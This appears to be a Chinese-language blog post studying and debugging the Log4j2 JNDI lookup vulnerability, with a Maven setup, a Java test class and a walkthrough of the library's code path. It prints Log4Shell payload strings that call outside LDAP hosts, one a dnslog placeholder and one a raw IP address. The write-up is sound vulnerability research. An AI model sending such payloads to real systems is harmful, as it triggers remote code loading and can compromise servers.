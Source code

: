 ```yaml
---
title: log4j2 jndi 漏洞学习和调试
author: ch3n9w
typora-root-url: ../
date: 2021-12-11 14:56:51
categories: 安全研究
---
```


> 明天安全圈校招面试: 
> 面试官: 请说说你会什么技能?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 面试官: 请说说你最近关注过的漏洞?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 面试官: 你平时有动手调试过吗?
> 我: ${jndi:ldap://xxx.dnslog.cn/exp}
> 我：这dnslog是不是卡了 这面试官怎么还没rce
<!--more-->

## 环境搭建

新建maven项目, pom.xml写入
```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
```
1. 在官网 https://archive.apache.org/dist/logging/log4j/ 下载log4j然后在project structure中导入

![](2021-12-11-16-16-25.png)

2. 下载低版本java8 https://repo.huaweicloud.com/java/jdk/ 我下载的是8u181,将其作为java运行环境

![](2021-12-11-16-24-14.png)

写测试代码

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Main {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args){
        logger.error("${jndi:ldap://39.105.176.37:1389/smzifq}");
    }
}
```

## 漏洞调试

调试进入
![](2021-12-11-15-37-32.png)


![image-20211211152434057](image-20211211152434057.png)


调试到
![image-20211211152611862](image-20211211152611862.png)



然后调试到`MessagePatternConverter#format`方法, 看到这里会试图匹配`${`字符.并将payload字符串解析到变量value中去.

![image-20211211152039629](image-20211211152039629.png)


步进replace函数, 再步进substitute函数
![image-20211211152218136](image-20211211152218136.png)

进入下一个substitute中会看到它会匹配结尾的`}`
![](2021-12-11-15-56-47.png)


再往下就可以看到`resolveVariable`方法被调用, 里面调用了`lookup`方法
![](2021-12-11-16-01-45.png)

![image-20211211152245317](image-20211211152245317.png)

在`lookup`方法中,会试图寻找`:`,并将`:`前面的部分作为prefix, 随后根据prefix来寻找类

![](2021-12-11-16-06-13.png)

可以看到这里规定了不同的prefix对应的类

![image-20211211150105597](image-20211211150105597.png)


使用的Jndi,所以使用的是`JndiLookup`类,调用了`JndiLookup#lookup`方法,并将`:`后面的部分作为参数传入.

![image-20211211150131696](image-20211211150131696.png)

最后调用到了`javax.naming.InitialContext#lookup`方法,server端收到请求
![](2021-12-11-16-11-46.png)

![](2021-12-11-16-13-38.png)

## 漏洞利用

普通的jndi注入就可以了

## 参考

https://www.anquanke.com/post/id/262668#h3-5
